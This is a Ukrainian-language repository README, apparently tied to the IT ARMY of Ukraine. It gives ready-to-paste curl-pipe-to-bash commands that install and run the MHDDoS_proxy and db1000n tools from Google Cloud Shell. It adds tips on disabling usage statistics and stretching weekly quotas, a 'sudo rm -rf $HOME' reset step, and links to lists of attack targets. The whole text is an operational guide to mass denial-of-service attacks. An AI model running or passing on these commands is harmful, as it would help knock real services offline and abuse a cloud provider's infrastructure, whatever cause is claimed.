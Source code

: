 ## DDoS whith Google Cloud Shell
#### Scripts for durable cloudshell session. Test!
#
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
#
### Команди для встановлення та запуску MHDDoS_proxy
**Layer7:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
~~**Layer4:**~~
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash
```
~~**Подвійна атака (Layer7+Layer4) розділений термінал (tmux):**~~
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```
:white_check_mark: *Автоперезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000.    
За потреби параметр -t можна змінити додавши до команди ` -s -- "кількість"`, наприклад:*    
`curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash -s -- 1200`
#
### Команда для встановлення та запуску db1000n
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
#
:exclamation:• У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях бажано **вимкнути статистику використання**.    
:exclamation:• Дозволяється запускати до 4 терміналів на 1 акаунт але **рекомендується використовувати 1 термінал на акаунт**.    
:exclamation:• Враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень*)    
• **Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart" *(Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням)*
#
#
#### Списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4t.lst
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
